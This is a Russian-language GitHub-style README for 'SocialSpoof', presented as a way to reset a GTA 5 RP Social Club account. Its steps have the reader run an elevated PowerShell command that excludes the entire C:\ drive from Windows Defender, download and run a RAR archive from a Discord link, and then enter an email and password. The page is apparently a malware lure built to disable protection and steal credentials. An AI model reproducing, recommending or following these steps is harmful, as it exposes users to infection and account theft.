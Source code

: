 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP

## 📖 Описание
В этой статье я расскажу вам, как это сделать. 👇

## 🔧 Установка
### 🛠️ Шаг 1: Сделайте расширение системных файлов Rage Mp
<details>
<summary style="color: blue; font-weight: bold;">Подробные инструкции</summary>

1. Нажмите Win+R и введите команду:
    ```powershell
    powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"
    ```
2. Выполните команду.

</details>

### 📥 Шаг 2: Загрузите SocialSpoof
Как только выполнено расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar).

### 📂 Шаг 3: Распакуйте архив
Распакуйте архив на рабочем столе и запустите.

### 🚀 Шаг 4: Запустите софт
Запустите софт, и заходите в игру.

### ✏️ Шаг 5: Введите данные
Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
